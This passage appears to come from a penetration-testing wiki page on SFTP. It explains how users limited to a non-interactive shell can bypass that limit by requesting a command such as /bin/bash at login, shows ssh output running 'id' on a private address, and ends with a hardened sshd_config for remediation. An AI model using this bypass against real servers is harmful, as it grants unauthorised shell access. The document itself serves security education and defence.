### SFTP Brute Force

* [**SFTP Brute Force**](../generic-methodologies-and-resources/brute-force.md#sftp)

### SFTP command execution

There is a common oversight occurs with SFTP setups, where administrators intend for users to exchange files without enabling remote shell access. Despite setting users with non-interactive shells (e.g., `/usr/bin/nologin`) and confining them to a specific directory, a security loophole remains. **Users can circumvent these restrictions** by requesting the execution of a command (like `/bin/bash`) immediately after logging in, before their designated non-interactive shell takes over. This allows for unauthorized command execution, undermining the intended security measures.

[Example from here](https://community.turgensec.com/ssh-hacking-guide/):
```bash
ssh -v noraj@192.168.1.94 id
...
Password:
debug1: Authentication succeeded (keyboard-interactive).
Authenticated to 192.168.1.94 ([192.168.1.94]:22).
debug1: channel 0: new [client-session]
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Sending command: id
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
uid=1000(noraj) gid=100(users) groups=100(users)
debug1: channel 0: free: client-session, nchannels 1
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

$ ssh noraj@192.168.1.94 /bin/bash
```
Here is an example of secure SFTP configuration (`/etc/ssh/sshd_config` – openSSH) for the user `noraj`:

```
# SFTP configuration for user noraj
Subsystem sftp internal-sftp

Match User noraj
    ChrootDirectory /home/noraj
    ForceCommand internal-sftp
    AllowTcpForwarding no
    X11Forwarding no
    PasswordAuthentication yes
    PermitTunnel no
    AllowAgentForwarding no
    PermitRootLogin no
    PubkeyAuthentication yes
    AuthorizedKeysFile /home/noraj/.ssh/authorized_keys
```

--- 